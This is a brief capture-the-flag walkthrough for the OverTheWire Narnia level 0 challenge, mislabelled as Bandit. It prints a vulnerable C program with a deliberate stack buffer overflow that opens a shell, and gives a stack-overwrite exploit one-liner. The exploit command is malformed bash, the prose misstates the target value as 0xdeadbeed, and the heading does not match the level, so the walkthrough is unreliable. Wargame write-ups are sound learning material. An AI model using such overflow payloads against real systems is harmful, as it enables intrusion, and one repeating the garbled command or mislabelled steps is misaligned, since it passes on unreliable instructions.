 
# OverTheWire

OverTheWire's challenges walkthrogh.


## Bandit
### level 0->1
We can connect using secure 
shell to the server with narnia0 as the 
user and narnia0 as the password. After we logged 
in we can see two files narnia0 and narnia0.c .

*narnia0.c*
```c
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }
    return 0;
}
```
From the code we can see that there is buffer
that gets from the standard input 24 bytes while
the buffer is only contains 20 bytes of space. before
that buffer we can see that the program declered variable
that contains 4 bytes so on the stack we can overwrite
this variable by send to the standard input 24 bytes.
Important thing we need to notice is that the scanf
function takes string and we need to change 0x41414141 to 0xdeadbeed
so we need to provide the standard input the string
presentation of 0xdeadbeef in hex. 

We can do it by write in the bash:
```
echo -e '\xef\xbe\xad\xde'
```
So the exploit will be:
```
echo -e ('AAAABBBBCCCCEEEEFFFF\xef\xbe\xad\xde'; cat;) | ./narnia0
```









